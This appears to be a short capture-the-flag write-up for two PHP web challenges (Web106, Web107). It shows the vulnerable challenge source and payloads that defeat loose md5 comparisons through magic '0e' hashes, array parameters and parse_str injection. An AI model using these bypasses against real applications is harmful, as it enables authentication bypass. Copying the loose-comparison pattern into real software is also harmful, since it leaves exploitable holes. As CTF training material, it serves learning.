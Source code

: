 ## Web106

```
弱比较
aaK1STfY
0e76658526655756207688271159624026011393
aaO8zKZF
0e89257456677279068558073954252716165668
数组绕过
post v1[]=1 ?v2[]=2
```

## Web107

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 23:24:14

*/


highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if(isset($_POST['v1'])){
    $v1 = $_POST['v1'];
    $v3 = $_GET['v3'];
       parse_str($v1,$v2);
       if($v2['flag']==md5($v3)){
           echo $flag;
       }

}



?>
```

payload

```
md5构造
?v3=666 POST v1=flag%3Dfae0b27c451c728867a567e8c1bb4e53
数组绕过
?v3[]=666  POST v1=a%3D6 或v1=
弱比较绕过
?v3=QNKCDZO MD5：0e830400451993494058024219903391 POST v1=flag=0
```
